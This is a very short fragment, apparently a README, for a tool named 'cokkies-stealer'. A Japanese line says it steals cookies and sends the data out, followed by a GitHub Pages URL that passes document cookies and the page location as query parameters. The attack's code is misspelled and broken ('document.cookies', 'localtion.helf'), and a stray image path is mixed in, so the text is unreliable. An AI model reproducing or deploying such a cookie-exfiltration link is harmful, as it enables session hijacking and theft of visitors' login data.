 cokkies-stealerはcookiesを盗み、データを送信します。
https://masa-pokemon.github.io/cookies-stealer/?cookies=document.cookies?url=localtion.helf
